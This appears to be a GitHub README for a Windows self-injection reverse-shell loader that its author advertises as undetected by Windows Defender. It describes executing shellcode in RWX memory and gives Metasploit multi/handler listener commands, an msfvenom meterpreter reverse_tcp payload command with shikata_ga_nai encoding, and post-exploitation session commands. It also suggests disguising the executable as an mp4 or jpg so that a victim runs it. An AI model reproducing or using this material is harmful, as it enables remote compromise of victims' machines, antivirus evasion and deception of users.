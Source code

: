 # Self-Injection-Reverse-Shell-Undetected
Self Injection Malware, currently UNDETECTED by windows defender, it creates a reverse shell on a target machine

# 💻 Code
This program injects base64 code into a self created process on the target machine. 

**Step by step guide**:
- First we define the base64 shellcode (make sure architecute is set to x86 and encoding to utf8 for the message box payload;
- Secondly we allocate the memory, write shellcode to the allocated memory, and make it readable, writable, and executable, allowing the shellcode to run.
- Then the code copies the shellcode into the newly allocated memory;
- It creates a new thread to execute the shellcode, since allocated_mem (which contains the shellcode) is cast to the function pointer type LPTHREAD_START_ROUTINE;

Finally we wait for the created thread (which is running the shellcode) to finish executing before freeing the memory.

---

- **Listener**: <img align="right" src="media/rev3.jpg" width="310" />

On the attacker's machine i used the classic multi handler exploit to run the payload: 

``` msfconsole ```

``` use exploit multi/handler  ```

``` set payload windows/meterpreter/reverse_tcp ```

``` set lhost XXX ```

``` set lport XXX ```

``` exploit ```

---

- **Payload**: <img align="right" src="media/rev2.jpg" width="240" />

The payload is, as i said before, a simple non-encrypted base64 shellcode, you can make it with:

``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=XXX LPORT=XXXX -f c ```.

You can add a simple encryption by adding this ``` -e x86/shikata_ga_nai -f c  ```. 

In the future i will attempt to create my own encryption, since the well known ones are already pretty much detectable. 

---

- **Shell**

You can embed the code into pretty much anything, you can even use tools to mask the exe file into a mp4 or jpg file, complete with a new icon and a name, even the extension can be masked.
Once the victim runs the exe, a new session will pop up on meterpreter, and u can view it and use it with: <img align="right" src="media/rev1.jpg" width="400" />

``` sessions ```

``` sessions -i 1```

``` shell ```

Here is an example of writing powershell code through meterpreter     --------->

In this example it was a simple message box error, which worked smoothly.

---

# 🛡 Antivirus

<img align="right" src="media/vt1.png" width="350" />

The payload is currently undetected by windows defender, but it's easily blocked by Bitdefender, even the free trial.

Something i don't understand is why Virus Total says that bitdefender won't classify the exe file as malicious, while Microsoft, which should technically be windows defender (?) recognizes the malware.... it should be the exact opposite but idk.

As i said before, you can add a simple shikata ga nai encryption or use online tools like shoggoth or idk. Soon i will create my own simple encryption using python : )

The only problem is decrypting the base64, ill have to find a way to basically use both c++ and python somehow.... <img align="right" src="media/vt2.png" width="240" />

Last thing: i run the malware using Termux, an android emulator for linux, because i didnt wanna setup networking stuff for my kali vm, i had issues trying to establish the session

